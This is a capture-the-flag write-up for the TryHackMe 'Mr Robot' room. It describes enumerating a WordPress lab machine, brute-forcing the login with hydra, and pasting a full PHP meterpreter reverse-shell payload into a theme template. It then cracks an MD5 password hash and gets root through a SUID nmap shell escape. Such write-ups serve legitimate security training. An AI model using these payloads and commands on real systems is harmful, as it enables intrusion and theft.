






# # Try Hack Me Writeup - Mr Robot

TryHackMe room: <https://tryhackme.com/room/mrrobot>

Based on the Mr. Robot show, can you root this box?


**WARNING: I stripped out the answers, passwords, flags and co. This writeup is pretty detailed. By following and doing the steps described here yourself you will get them all. The goal is to learn more about it, even if you get stuck at some point. Enjoy!**

NOTE: You can grab the virtual machine here: <https://www.vulnhub.com/entry/mr-robot-1,151/>

## Table of Contents

- [Answer the questions](#answer-the-questions)
- [Setup](#setup)
- [Tools Used](#tools-used)
- [Enumeration of ports and services](#enumeration-of-ports-and-services)

## Answer the questions

What is key 1?

_Hint: Robots_

    07*****8a58a1f80d943455fb*****b9

What is key 3?

_Hint: White coloured font_

    82*****56184f694993bede3e*****59

What is key 3?

_Hint: nmap_

    04*****ef27c3dee1ee161b2*****4e4

## Setup

```commandline
$ export IP_HOST=10.8.208.30
$ export IP_TARGET=10.10.59.31
$ export WRITEUP="$HOME/Documents/THM/mrrobot/"
$ mkdir -p $WRITEUP
$ cd $WRITEUP
$ tmux
```

## Tools Used

- nmap
- gobuster
- nikto
- Burp Suite
- hydra

## Enumeration of ports and services

````commandline
# nmap -sCV $IP_TARGET 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-28 00:24 CEST
Nmap scan report for 10.10.59.31
Host is up (0.040s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.28 seconds
````

## Website enumeration

I started enumerating the website with `gobuster`, because that can take some time. And indeed, here it took ages. My first try with `-t 75` (75 threats), did not go like expected. The webserver stopped responding after a short amount of time. Not even sure if we will be able to let run `gobuster` up to the end, as it is very slow. So I make use of the `-o gobuster_enum.txt` parameter to save to a file. I don't do that a lot actually, as the output in these CTFs are most of the time not so much and fast. But in this case, it is definitively needed.

````commandline
$ gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://$IP_TARGET -o gobuster_enum.txt -t 30
````

Finally, after some long time, I stopped this enumeration. Took forever and blocked me a bit to enumerate other things. This is what I got so fare of the the `gobuster_enum.txt` file:

````commandline
$ cat gobuster_enum.txt
/images               (Status: 301) [Size: 234] [--> http://10.10.59.31/images/]
/blog                 (Status: 301) [Size: 232] [--> http://10.10.59.31/blog/]
/sitemap              (Status: 200) [Size: 0]
/rss                  (Status: 301) [Size: 0] [--> http://10.10.59.31/feed/]
/login                (Status: 302) [Size: 0] [--> http://10.10.59.31/wp-login.php]
/video                (Status: 301) [Size: 233] [--> http://10.10.59.31/video/]
/0                    (Status: 301) [Size: 0] [--> http://10.10.59.31/0/]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.59.31/feed/]
/image                (Status: 301) [Size: 0] [--> http://10.10.59.31/image/]
/atom                 (Status: 301) [Size: 0] [--> http://10.10.59.31/feed/atom/]
/wp-content           (Status: 301) [Size: 238] [--> http://10.10.59.31/wp-content/]
/admin                (Status: 301) [Size: 233] [--> http://10.10.59.31/admin/]
/audio                (Status: 301) [Size: 233] [--> http://10.10.59.31/audio/]
/intro                (Status: 200) [Size: 516314]
/wp-login             (Status: 200) [Size: 2657]
/css                  (Status: 301) [Size: 231] [--> http://10.10.59.31/css/]
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.59.31/feed/]
/license              (Status: 200) [Size: 309]
/wp-includes          (Status: 301) [Size: 239] [--> http://10.10.59.31/wp-includes/]
/js                   (Status: 301) [Size: 230] [--> http://10.10.59.31/js/]
/Image                (Status: 301) [Size: 0] [--> http://10.10.59.31/Image/]
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.59.31/feed/rdf/]
/page1                (Status: 301) [Size: 0] [--> http://10.10.59.31/]
/readme               (Status: 200) [Size: 64]
/robots               (Status: 200) [Size: 41]
/dashboard            (Status: 302) [Size: 0] [--> http://10.10.59.31/wp-admin/]
/%20                  (Status: 301) [Size: 0] [--> http://10.10.59.31/]
/wp-admin             (Status: 301) [Size: 236] [--> http://10.10.59.31/wp-admin/]
````

There are 2 ports serving web, one not secured on port `80` and one secured on port `443`. But seems to point to the same website.

Took a look on the website with the web browser and this was very cool, actually. The admin went very wild and crazy with a javascript trick to fake some real boot up of a computer, like in the series of `Mr. Robot`. This is just very nicely done! No luck for those who read this, I just have a few screenshots to show you. And a big note, this website is interactive where you need to input commands!





I'm joking, for those who don't follow, you can check out the video here:

[](https://www.youtube.com/watch?v=TKP7MENz1c4)

So we can give in a few commands like shown on the screenshot. Each command redirect to some other page, with some lecture or some video. Very well done! when closing that, you will be redirected to the command line.



There's nothing hiding in the source code of these pages.

The `robots.txt` file contains the following:

````commandline
User-agent: *
fsocity.dic
key-1-of-3.txt
````

So we can get the answer of the first question on <http://10.10.59.31/key-1-of-3.txt>

    07*****8a58a1f80d943455fb*****b9

Looking at the file <http://10.10.59.31/fsocity.dic>, the web browser asked me where I wanted to save this file. Ok, it's a big one then! It looks like some wordlist of `858160` lines.

The `gobuster` enumeration feels like it will never get at its end. So far, I know also now there is a `WordPress` site running. `Wappalyzer` told me, `gobuster` gave the hint also.



But first a `nikto` scan which I finally had to cancel, as it took ages and looked like stuck at some point.

````commandline
$ nikto -h $IP_TARGET 
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.59.31
+ Target Hostname:    10.10.59.31
+ Target Port:        80
+ Start Time:         2021-08-28 01:43:59 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-powered-by header: PHP/5.5.29
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.html, index.php
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3092: /readme: This might be interesting...
+ Uncommon header 'link' found, with contents: <http://10.10.59.31/?p=23>; rel=shortlink
...
````

Okay, `nikto` looks also not want to work with me today. After a while, really a while, I cancelled it. No way I'm going to wait, hours to let this finish.

So let's take a look at the `WordPress` site.

`gobuster` gave me the hint of the admin section, which is <http://10.10.59.31/wp-admin/>. When trying to enter some dummy username and password. The website tells us an error `ERROR: Invalid username. Lost your password?`.



We can try to brute force this, but we have no username so far. But let's try anyway, this is the computer of `elliot` no? So let's with try `elliot` dot! For this, we need to know how the web request goes. For this we can make use of `Burp Suite`.



The interesting part of this is:

````commandline
log=test&pwd=testpass&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.59.31%2Fwp-admin%2F&testcookie=1
````

So let's use hydra to bruteforce:

````commandline
hydra -l elliot -P fsocity.dic $IP_TARGET http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F$IP_TARGET2Fwp-admin%2F&testcookie=1:S=302"
...
````

Okay, this also take ages!

While the brute forcing was busy, I continue to look here and there manually, as I had nothing else to do and everything took ages. Got some more output of `gobuster`, so I looked at these hints. Finally, found something very interesting at <http://10.10.59.31/license>. I stripped out the tons of new lines in my output here.

````
what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?
...
do you want a password or something?
...
ZW*****0OkVSMjgtM*****o=
````

[Hash Analyzer](https://www.tunnelsup.com/hash-analyzer/) gave me the tip this is a encoded in `base64`.

````commandline
$ echo "ZW*****0OkVSMjgtM*****o==" | base64 -d
elliot:****-****
````

Okay! Let's stop this `hydra` brute forcing by now :-D

Log in with these credentials, we now know that this is about `WordPress 4.3.1`. Knowing `WordPress`, so I prepare already a web shell. This time, with `msfvenon`, to change a bit and because I'm in the mood to use the metasploit tools today. We have a few different methods on how we could install our reverse shell, but I will only cover one method.

````commandline
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=$IP_HOST LPORT=4444 -f raw -o payload.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1112 bytes
Saved as: payload.php
````

The content of the `payload.php` file is as following:

````commandline
$ cat payload.php 
/*<?php /**/ error_reporting(0); $ip = '10.8.208.30'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
````

We can paste this easily in the `404 template` of `Wordpress` :-) For this go to `Appearance` > `Editor`. And in the right column select the item `404 Template`. Pasted the above code there. 

Now running `metasploit` and setting up some multi handler listener.

````commandline
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.8.208.30:4444
````

Now make in sort to access a page that does not exist. Example: <http://10.10.59.31/foobar.html> and you should see that you got connection in the `msfconsole`.

````commandline
[*] Sending stage (39282 bytes) to 10.10.59.31
[*] Meterpreter session 1 opened (10.8.208.30:4444 -> 10.10.59.31:38024) at 2021-08-28 02:50:44 +0200
meterpreter > getuid 
Server username: daemon (1)
meterpreter > pwd
/opt/bitnami/apps/wordpress/htdocs
````

Now looking up for the user flag for the CTF. But no luck, that file is only readable by the user.

````commandline
meterpreter > ls /home/
Listing: /home/
===============

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2015-11-13 08:20:08 +0100  robot

meterpreter > cd /home/robot
meterpreter > ls
Listing: /home/robot
====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100400/r--------  33    fil   2015-11-13 08:28:21 +0100  key-2-of-3.txt
100644/rw-r--r--  39    fil   2015-11-13 08:28:21 +0100  password.raw-md5

meterpreter > cat password.raw-md5
robot:c3*****76192e4007dfb496cc*****3b
````

Looking up on [CrackStation](https://crackstation.net/) to save computing time and the password is: `**************************`.

From there we need to switch user to `robot`. For this, first we need to start a shell in `msfconsole`. But `su` need a terminal, so used `Python` to do the trick.

````commandline
meterpreter > shell
Process 2500 created.
Channel 2 created.

su robot
su: must be run from a terminal
python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ su robot
su robot
Password: **************************

robot@linux:~$ pwd     
/home/robot
robot@linux:~$ cat key-2-of-3.txt
82*****56184f694993bede3e*****59
````

Looked with `sudo -l`, nothing. `crontab -l` also did not give anything.

````commandline
robot@linux:~$ sudo -l
[sudo] password for robot: abcdefghijklmnopqrstuvwxyz

Sorry, user robot may not run sudo on linux.
robot@linux:~$ crontab -l
no crontab for robot
````

To gain `root` access, the hint is `nmap`. I wanted to make use of `linpeas` for the local enumeration of this machine, to help me and speed up the process. But sometimes, looking manually speed up the process even more. So I looked up for the `SUID` bits on this computer.

The short ways is:

````commandline
robot@linux:~$ whereis nmap
nmap: /usr/local/bin/nmap
robot@linux:~$ ls -lah /usr/local/bin/nmap
-rwsr-xr-x 1 root root 493K Nov 13  2015 /usr/local/bin/nmap
````

But I took the long way.

````commandline
robot@linux:~$ find / -perm +6000 2>/dev/null | grep '/bin/'
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/mail-touchlock
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/screen
/usr/bin/mail-unlock
/usr/bin/mail-lock
/usr/bin/chsh
/usr/bin/crontab
/usr/bin/chfn
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/expiry
/usr/bin/dotlockfile
/usr/bin/sudo
/usr/bin/ssh-agent
/usr/bin/wall
/usr/local/bin/nmap
````

So `nmap` has the `SUID` bit set on. Looked on the [GTFOBins about nmap](https://gtfobins.github.io/gtfobins/nmap/), which gave the golden tip on how to get a shell with `nmap`.

````commandline
robot@linux:~$ nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# cd /root
# ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
04*****ef27c3dee1ee161b2*****4e4
````

Mission accomplished!

Hopefully you enjoyed as much as I did :-)
